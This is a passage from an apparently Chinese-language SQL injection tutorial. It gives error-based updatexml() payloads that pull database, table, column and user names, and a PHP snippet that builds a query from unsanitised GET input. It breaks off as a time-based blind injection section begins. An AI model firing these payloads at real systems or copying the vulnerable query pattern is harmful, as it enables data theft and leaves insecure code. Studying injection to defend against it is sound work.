 ##### 获取数据库名

```sql
http://localhost/?id=a' and updatexml(1,concat(0x7e,(select database()),0x7e),1) -- qqqq
```

##### 获取表名

```sql
http://localhost/?id=a' and updatexml(1,concat(0x7e,(selectgroup_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)-- qqqq
```

##### 获取字段名

```sql
http://localhost/?id=a' and updatexml(1,concat(0x7e,(selectgroup_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1)-- qqqq
```

##### 获取数据

```sql
http://localhost/?id=a' and updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)-- qqqq
```

#### 为什么要用报错注入

##### 报错注入后台代码分析

```php
<?php
$conn=mysqli_connect("localhost","root","root","test");
// 检测连接
if (mysqli_connect_errno())
{
echo "连接失败: " . mysqli_connect_error();
}
$username = $_GET['username'];
$sql = "select * from users where 'username'='$username'";
if($result = mysqli_query($conn,$sql)){
echo "ok";
}else{
echo mysqli_error($con);
}
?>
```

#### 时间盲注

盲注已经会谢了，还是时间盲注，我更谢谢你。

当我们sql注入时页面既不会回显数据，也不会回显错误信息，也不提示真假。页面内容也不会改变。就可以用上时间盲注。通常搭配`if`语句来进行时间盲注

##### 时间盲注的原理
